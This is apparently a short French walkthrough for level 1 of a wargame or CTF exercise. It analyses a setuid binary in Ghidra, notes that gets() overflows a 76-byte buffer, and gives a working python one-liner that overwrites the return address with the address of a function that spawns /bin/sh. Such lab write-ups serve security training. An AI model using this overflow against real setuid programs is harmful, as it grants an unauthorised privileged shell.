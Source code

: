 # Level 1

```
$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
En ouvrant ce programme dans ghidra, on repère deux fonctions, une qui est le `main` et une autre `run` qui éxecute `/bin/sh` mais elle n'est jamais utilisé.<br/>
Et le `main` va simplement lire dans stdin jusqu'à trouvé un `\n` et sauvegarde dans `buffer`. Le petit problème c'est que `buffer` peut contenir seulement 76 charactères alors que `gets` peut lire bien plus que 76.

On va alors faire tous simplement un buffer overflow et pour ce faire, écrire l'address de `run` à la suite de ces 76 charactères.

![Ghidra level01, fonction main et run](./ghidra-level1.png)
*L'addresse de `run` est mis au format little-endian, `cat` à comme deuxième argument `-` pour réouvrir la stdin*
```
$ python -c 'print("a" * 76 + "\x44\x84\x04\x08")' > /tmp/oob
$ cat /tmp/oob - | ./level1
```